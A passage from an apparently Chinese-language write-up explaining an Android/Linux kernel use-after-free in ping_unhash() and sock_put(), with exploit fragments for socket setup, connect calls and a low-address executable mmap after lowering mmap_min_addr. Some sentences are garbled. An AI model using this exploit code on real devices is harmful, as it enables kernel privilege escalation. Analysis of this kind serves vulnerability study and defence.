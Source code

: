 ```
      printf("Device is not vulnerable\n");
      return 0;
    }
}

```

漏洞利用
----

这是个 uaf 洞，漏洞 代码主要在 ping_unhash() 的 sock_put()

```
static inline void sock_put(struct sock *sk)
{
    if (atomic_dec_and_test(&sk->sk_refcnt))
        sk_free(sk);
}

```

sock_put 将 sk->sk_refcnt-1，判断该值是否为 0，注意到这里，之前说的 sk->sk_refcnt 派上用长了, 如果是 0 就 free 掉 sk, 如果我们在用户态提前 mmap 了 0x1360 崩溃，而是进入 sock_put,sk 被 free, 接着通过讲解 exp 的方式来了解漏洞是怎么触发的

首先是

```
struct sockaddr addr1 = { .sa_family = AF_INET 	 };
struct sockaddr addr2 = { .sa_family = AF_UNSPEC };
for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		vultrig_socks[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
		if(-1 == vultrig_socks[i])
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr1, sizeof(addr1));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}
	}


```

这里和 poc 一样, socket 函数 malloc 了 sock 和 socket 并将 sock 的 sk_refcnt 置为 1，而 connect 函数根据 socket 的 fd 在 fdt[fd] 找到对应的 file，提取 file->privatedata 的 socket, 将这个 socket 的 sock 的 hlist 置数也就是 + 0x30,0x38 的地方，并将 sk_refcnt++

```
	system("echo 4096 > /proc/sys/vm/mmap_min_addr");
	void* user_mm = mmap(PAGE_SIZE, MAX_NULLMAP_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE| MAP_FIXED |MAP_ANONYMOUS, -1, 0);

```
